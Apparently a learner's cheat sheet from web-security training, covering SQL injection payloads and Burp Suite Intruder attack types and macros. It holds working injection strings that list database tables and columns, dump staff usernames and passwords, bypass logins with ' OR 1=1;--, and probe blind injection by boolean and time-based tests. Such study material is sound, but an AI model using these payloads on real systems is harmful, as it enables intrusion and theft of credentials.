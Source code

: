     0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<database name>'

Then get the colums name of the table we're interested in

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table name>'

Then display the content: 

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users (where 'username' and 'password' are column names)

### Blind SQLi (the thing before union must be false so that we can check that our query works or not)

#### Authentication bypass 

    ' OR 1=1;--
#### Boolean based

    admin123' UNION SELECT 1,2,3 where database() like '%';-- (discover the name on a boolean base database, add character before % and see if the database returns true or not)
#### Time based

    admin123' UNION SELECT SLEEP(5);--  

# Burp suite

## Intruder

### Attack types

#### Sniper
One set of payloads, if multiple positions, will do one at a time

#### Battering ram
One set of payloads, if multiple positions, will do all at once (same one not alternating)

#### Pitchfork
One set of payloads per position, first with first ect... 

#### Cluster Bomb
One set of payloads per position, every single combination possible

## Macro
Use when we want to get session cookie or loginToken that is generated each time you enter a login page
![](https://assets.muirlandoracle.co.uk/thm/modules/burp/creatingMacro.gif)
![](https://assets.muirlandoracle.co.uk/thm/modules/burp/configuringSessionHandlerP1.gif)
![](https://assets.muirlandoracle.co.uk/thm/modules/burp/addingRuleAction.gif)
